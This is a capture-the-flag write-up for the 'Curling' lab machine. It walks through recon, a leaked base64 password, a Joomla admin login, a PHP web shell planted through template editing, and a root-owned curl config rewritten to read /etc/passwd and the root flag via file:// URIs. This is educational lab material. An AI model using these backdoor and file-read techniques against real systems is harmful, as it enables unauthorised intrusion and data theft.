

# Curling Write-Up by ahkrichards

## Table of Contents

* [User Flag](#User-Flag)
    * [Recon](#Recon)
    * [Information Leakage](#Information-Leakage)
    * [Joomla Administration](#Joomla-Administration)
    * [Backdoor](#Backdoor)
    * [Owning User](#Owning-User)
* [Root Flag](#Root-Flag)

## User Flag

### Recon

As one might expect, we first need to find what services are hosted on the box. We will run an `nmap` scan against common ports and attempt to identifiery the services.

```Shell
nmap -T4 -A -F -Pn curling.htb
```

We find that there is SSH and a web service hosted on port 80.

```
Host discovery disabled (-Pn). All addresses will be marked 'up' and scan times will be slower.
Starting Nmap 7.91 ( https://nmap.org ) at 2021-02-23 13:07 EST
Nmap scan report for curling.htb (10.10.10.150)
Host is up (0.074s latency).
Not shown: 98 closed ports
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.6p1 Ubuntu 4 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 8a:d1:69:b4:90:20:3e:a7:b6:54:01:eb:68:30:3a:ca (RSA)
|   256 9f:0b:c2:b2:0b:ad:8f:a1:4e:0b:f6:33:79:ef:fb:43 (ECDSA)
|_  256 c1:2a:35:44:30:0c:5b:56:6a:3f:a5:cc:64:66:d9:a9 (ED25519)
80/tcp open  http    Apache httpd 2.4.29 ((Ubuntu))
|_http-generator: Joomla! - Open Source Content Management
|_http-server-header: Apache/2.4.29 (Ubuntu)
|_http-title: Home
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 9.53 seconds
```

### Information Leakage

We will not look at the SSH service due to the lack of credentials. Instead, we will look at the web service. A useful tatic is reviewing the source code of the web service to see if there is anything useful about technologies or other tidbits. In the case of the easy box, the developer leveraged HTML comments to store sensitive information without stripping those comments before releasing to production.

Reviewing the source for http://curling.htb/ shows the following at the end of the content:

```HTML
    </body>
    <!-- secret.txt -->
</html>
```

This suggests there may be a file named `secret.txt` somewhere on the server. We can try our luck on that the file exists in the same directory of hosted web site, http://curling.htb/secret.txt:

```
Q3VybGluZzIwMTgh
```

Sure enough, that looks like a potentially useful piece of information. This may be a password for some service. Additionally, the string does look like a base64 encoded string because the characters appear at face value to be random A-Z, a-z, 0-9 characters. Let's try to base64 decode:

```Shell
$ echo 'Q3VybGluZzIwMTgh' | base64 -d

Curling2018!
```

This is certainly a password of some sort, let's find who it is for. Once again, we will use the information presented publically be the site.

On the default web page we see the following:


There are two potential usernames here:

* Super User
* Floris

Now that we have some potential credentials, we need a useful place to put them.

### Joomla Administration

The [default location](https://docs.joomla.org/Administrator_(Application)#:~:text=The%20Administrator%20application%2C%20also%20known,done%20with%20the%20administrator%20interface.) to administer Joomla is at ~/administrator/index.php. Attempting to access http://curling.htb/administrator/ does in fact yield a login page. Let's try the following credential:

`Floris:Curling2018!`

### Backdoor

After logging into the Joomla Administration, we are able to access "Extensions" > "Templates" > "Styles". We see that "protostar" is the default for style. By navigating to "Extensions" > "Templates" > "Tempalates" > "Protostar Details and Files" we can edit this template and inject a backdoor.

We know that the [default location](https://docs.joomla.org/Understanding_Joomla!_templates) for the template is: http://curling.htb/templates/protostar/

So we can try to access our test page via http://curling.htb/templates/protostar/test.php

Upon access we see:



Since the output is the stdout of the `print` command, we know that we have a successful PHP remote code execution point. 

Now we can upload a full backdoor script, one of my go-to scripts: https://raw.githubusercontent.com/backdoorhub/shell-backdoor-list/master/shell/php/p0wny-shell.php

Once our shell is uploaded and we access the page, we can test to see who we are:

```
p0wny@shell:…/templates/protostar# id

uid=33(www-data) gid=33(www-data) groups=33(www-data)
```

We are currently the identity of the web service which likely means we aren't very privileged. Now we must find a route to owning a local user.

### Owning User

Let's double check what user directories exist:

```Shell
p0wny@shell:/# ls /home/

floris
```

Now let's look for some world readable files within their directory:

```Shell
p0wny@shell:/home/floris# find /home/floris -type f -perm /o=r 2>/dev/null

/home/floris/.profile
/home/floris/.bash_logout
/home/floris/password_backup
/home/floris/.bashrc
```

The most interesting file here by far is the `password_backup` file. Checking the file information of the readable file suggests it is text:

```Shell
p0wny@shell:/home/floris# file /home/floris/password_backup

/home/floris/password_backup: ASCII text
```

However, upon inspection it looks like it is a hexadecimal text reperesentation produced by a tool like `xxd`:

```Shell
p0wny@shell:/home/floris# cat /home/floris/password_backup

00000000: 425a 6839 3141 5926 5359 819b bb48 0000  BZh91AY&SY...H..
00000010: 17ff fffc 41cf 05f9 5029 6176 61cc 3a34  ....A...P)ava.:4
00000020: 4edc cccc 6e11 5400 23ab 4025 f802 1960  N...n.T.#.@%...`
00000030: 2018 0ca0 0092 1c7a 8340 0000 0000 0000   ......z.@......
00000040: 0680 6988 3468 6469 89a6 d439 ea68 c800  ..i.4hdi...9.h..
00000050: 000f 51a0 0064 681a 069e a190 0000 0034  ..Q..dh........4
00000060: 6900 0781 3501 6e18 c2d7 8c98 874a 13a0  i...5.n......J..
00000070: 0868 ae19 c02a b0c1 7d79 2ec2 3c7e 9d78  .h...*..}y..<~.x
00000080: f53e 0809 f073 5654 c27a 4886 dfa2 e931  .>...sVT.zH....1
00000090: c856 921b 1221 3385 6046 a2dd c173 0d22  .V...!3.`F...s."
000000a0: b996 6ed4 0cdb 8737 6a3a 58ea 6411 5290  ..n....
```

That is okay, because we can feed the file through `xxd` and get the original binary file:

```
p0wny@shell:/home/floris# xxd -r /home/floris/password_backup > /tmp/test
```

Let's identify what kind of file we have recovered:

```
p0wny@shell:/home/floris# file /tmp/test

/tmp/test: bzip2 compressed data, block size = 900k
```

Because it is a bz2, we should rename the working file:

```
p0wny@shell:/home/floris# cp /tmp/test /tmp/test.bz2
```

And then try to unzip it:

```
p0wny@shell:/home/floris# bzip2 -d /tmp/test.bz2
```

Then we identify the decompressed file as a gzip and rename it appropriately:

```Shell
p0wny@shell:/home/floris# file /tmp/test

/tmp/test: gzip compressed data, was "password", last modified: Tue May 22 19:16:20 2018, from Unix

p0wny@shell:/home/floris# mv /tmp/test /tmp/test.gz
```

And then unzip the archive:

```Shell
p0wny@shell:/home/floris# gunzip -d /tmp/test.gz
```

We then identify the file as another bz2 and can rename it:

```Shell
p0wny@shell:/home/floris# file /tmp/test

/tmp/test: bzip2 compressed data, block size = 900k

p0wny@shell:/home/floris# mv /tmp/test /tmp/test.bz2
```

We then can decompress the bz2:

```Shell
p0wny@shell:/home/floris# bzip2 -d /tmp/test.bz2
```

We can identify the file as a tar ball and rename it for good measure:

```Shell
p0wny@shell:/home/floris# file /tmp/test

/tmp/test: POSIX tar archive (GNU)

p0wny@shell:/home/floris# mv /tmp/test /tmp/test.tar
``` 

Now let's deflate the tar ball:

```Shell
p0wny@shell:/home/floris# cd /tmp

p0wny@shell:/tmp# tar -xvf /tmp/test.tar

password.txt
```

We now can get the contents of the backed up password file:

```Shell
p0wny@shell:/tmp# cat password.txt

5d<wdCbdZu)|hChXll
```

Because we have some non-standard characters here, I do not believe this string is encoded and is a text representation of the password. Let's try to use it on the SSH service for user Floris.

We are able to successfully use the password to login to user floris via SSH:

```Shell
$ ssh floris@curling.htb

floris@curling:~$ id

uid=1000(floris) gid=1004(floris) groups=1004(floris)
```

Which means we now have the user flag!

```Shell
floris@curling:~$ cat ~/user.txt
```

## Root Flag

We have so far backdoored a Joomla web app, found a way to escalate to user privileges, but now we must find a root privilege escalation or context. Let's look around the user floris's home directory.

```Shell
floris@curling:~$ ls

admin-area  password_backup  user.txt
```

The `admin-area` directory looks like it could be handy. Let's inspect the files within and their privileges:

```
floris@curling:~$ ls -la ~/admin-area

total 28
drwxr-x--- 2 root   floris  4096 May 22  2018 .
drwxr-xr-x 6 floris floris  4096 May 22  2018 ..
-rw-rw---- 1 root   floris    25 Mar 15 23:08 input
-rw-rw---- 1 root   floris 14236 Mar 15 23:08 report
```

What is nice about this output is that we can tell the owner of the files are `root` and that `floris` has write access to them. Let's examine the `input` and `report` file contents:

```Shell
floris@curling:~/admin-area$ head input && echo "=== split content ===" && head report

url = "http://127.0.0.1"
=== split content ===
<!DOCTYPE html>
<html lang="en-gb" dir="ltr">
<head>
        <meta name="viewport" content="width=device-width, initial-scale=1.0" />
        <meta charset="utf-8" />
        <base href="http://127.0.0.1/" />
        <meta name="description" content="best curling site on the planet!" />
        <meta name="generator" content="Joomla! - Open Source Content Management" />
        <title>Home</title>
        <link href="/index.php?format=feed&amp;type=rss" rel="alternate" type="application/rss+xml" title="RSS 2.0" />
```

So it looks like the `input` wants a URI and the output may possibly be the content of that URI. Let's test by using `curl`, the namesake of this machine, which may serve as a hint:

```Shell
floris@curling:~/admin-area$ curl http://127.0.0.1 | head
  % Total    % Received % Xferd  Average Speed   Time    Time     Time  Current
                                 Dload  Upload   Total   Spent    Left  Speed
  0     0    0     0    0     0      0      0 --:--:-- --:--:-- --:--:--     0<!DOCTYPE html>
<html lang="en-gb" dir="ltr">
<head>
        <meta name="viewport" content="width=device-width, initial-scale=1.0" />
        <meta charset="utf-8" />
        <base href="http://127.0.0.1/" />
        <meta name="description" content="best curling site on the planet!" />
        <meta name="generator" content="Joomla! - Open Source Content Management" />
        <title>Home</title>
        <link href="/index.php?format=feed&amp;type=rss" rel="alternate" type="application/rss+xml" title="RSS 2.0" />
```

The output appears to match the content of `report` so we can likely tamper with the URI provided in `input` to try to exfiltrate data. Since we know the service is running locally by the 127.0.0.1 address of the deafult input, and the file we want is local lets try the `file://` scheme URI to grab a local file. Our proof of concept will be `/etc/passwd`. So we can update input to point to the URI `file:///etc/passwd` to create an abuse of file incusion:

```Shell
floris@curling:~/admin-area$ echo 'url = "file:///etc/passwd"' > input
```

However, if we examine the contents of `report` we may notice that the content hasn't changed. Let's keep refreshing our view of `input` and `report` contents using the `watch` command to print their contents every second:

```Shell
floris@curling:~/admin-area$ watch -n 1 'cat input && echo "=== split content ==="  && head report'

url = "http://127.0.0.1"
=== split content ===
root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
bin:x:2:2:bin:/bin:/usr/sbin/nologin
sys:x:3:3:sys:/dev:/usr/sbin/nologin
sync:x:4:65534:sync:/bin:/bin/sync
games:x:5:60:games:/usr/games:/usr/sbin/nologin
man:x:6:12:man:/var/cache/man:/usr/sbin/nologin
lp:x:7:7:lp:/var/spool/lpd:/usr/sbin/nologin
mail:x:8:8:mail:/var/mail:/usr/sbin/nologin
news:x:9:9:news:/var/spool/news:/usr/sbin/nologin
```

Which after a minute or so yields the contents of the `/etc/passwd` file. Now let's use our knowledge of where the root flag always exists, `/root/root.txt`, and specify that file using the file URI scheme:

```Shell
floris@curling:~/admin-area$ echo 'url = "file:///root/root.txt"' > input
```

This successfully gets us the root flag. While we did not get remote code execution or a root shell, we were successful in exfiltrating privileged sensitive information by abusing the input to specify a URI pointing to a local file.
